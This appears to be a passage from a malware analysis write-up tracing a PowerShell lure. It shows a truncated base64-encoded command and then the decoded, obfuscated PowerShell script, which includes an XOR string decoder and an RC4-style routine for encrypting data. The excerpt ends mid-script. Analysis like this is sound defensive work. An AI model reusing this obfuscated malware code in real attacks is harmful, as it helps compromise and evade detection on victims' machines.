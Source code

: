 I decide to investigate further by going to the URL in the PowerShell command it tries to get the victim to run. This takes me to a very large base64 encoded PowerShell command

```
powershell -EncodedCommand IAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAJABCAEIAQgA4ADgAQgA4AEIAOAA4ADgAQgBCAEIAOAA4ACAA... // command snippet
```

I decode the command in CyberChef to reveal an obfuscated PowerShell script

```
               $BBB88B8B888BBB88 = 0xf1,
                  0x6e,
    0xcd,
 0xc6,0x79,0x4c,0x66,0xd1,0x02,
          0xf8,0x33,0xc4,0x86,
                 0xe7,0xa4,
                      0x35,0x8d,
  0x69,0xbd,0xd2,0x1d,0x50,0xf5,0xfb,0xdf,0xec,0xaf,
     0x0b,0x9e,0x53,
    0xa4,0xd3
  function IIlIlIlIllIIllIl {
     param([int[]]$BBBB8888BBBBB8BB, [int]$BB8BB8B8BBB8B8B8)
                    $B8B8B8B8B8B8B8BB = ""
             foreach ($B888BB88888BBBBB in $BBBB8888BBBBB8BB) {
                        $B8B8B8B8B8B8B8BB += [char]($B888BB88888BBBBB -bxor $BB8BB8B8BBB8B8B8)
           }
                         return $B8B8B8B8B8B8B8BB
                  }
    function lIIIlllIIIIllllI {
     param (
                         [byte[]]$B8BBB8B8BB8BBB88,
                 [byte[]]$BBB8BBB8B88B88B8
        )
                 $BBB88BB88BB8BBB8 = 0..255
                 $B888B8BB888BB88B = 0
           for ($B8BB8BBB8BB8BBBB = 0; $B8BB8BBB8BB8BBBB -lt 256; $B8BB8BBB8BB8BBBB++) {
                           $B888B8BB888BB88B = ($B888B8BB888BB88B + $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB] + $B8BBB8B8BB8BBB88[$B8BB8BBB8BB8BBBB % $B8BBB8B8BB8BBB88.Length]) % 256
                             $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB], $BBB88BB88BB8BBB8[$B888B8BB888BB88B] = $BBB88BB88BB8BBB8[$B888B8BB888BB88B], $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB]
     }
                     $B8BB8BBB8BB8BBBB = 0
                    $B888B8BB888BB88B = 0
                        $BBBBB8BBB8BBB88B = @()
           foreach ($BBBB88888B888BBB in $BBB8BBB8B88B88B8) {
                             $B8BB8BBB8BB8BBBB = ($B8BB8BBB8BB8BBBB + 1) % 256
                              $B888B8BB888BB88B = ($B888B8BB888BB88B + $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB]) % 256
                            $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB], $BBB88BB88BB8BBB8[$B888B8BB888BB88B] = $BBB88BB88BB8BBB8[$B888B8BB888BB88B], $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB]
                        $B88BBB888BBB88B8 = $BBB88BB88BB8BBB8[($BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB] + $BBB88BB88BB8BBB8[$B888B8BB888BB88B]) % 256]
                       $BBBBB8BBB8BBB88B += ($BBBB88888B888BBB -bxor $B88BBB888BBB88B8)
          }
             return ,$BBBBB8BBB8BBB88B
                }
    function lllIIlIIlIllllll {
                  param ([string]$B888BBBBB8B8B8BB)
              $B888B8B8B88B8BB8 = [System.Text.Encoding]::UTF8.GetBytes($B888BBBBB8B8B8BB)
                   $BBBB8888BBBBB8BB = (lIIIlllIIIIllllI -B8BBB8B8BB8BBB88 $BBB88B8B888BBB88 -BBB8BBB8B88B88B8 $B888B8B8B88B8BB8) + (0x02,0x04,0x06,0x08)
                     $B88BBBBBB888888B = [System.BitConverter]::GetBytes([int16]$BBBB8888BBBBB8BB.Length)
        [Array]::Reverse($B88BBBBBB888888B)
```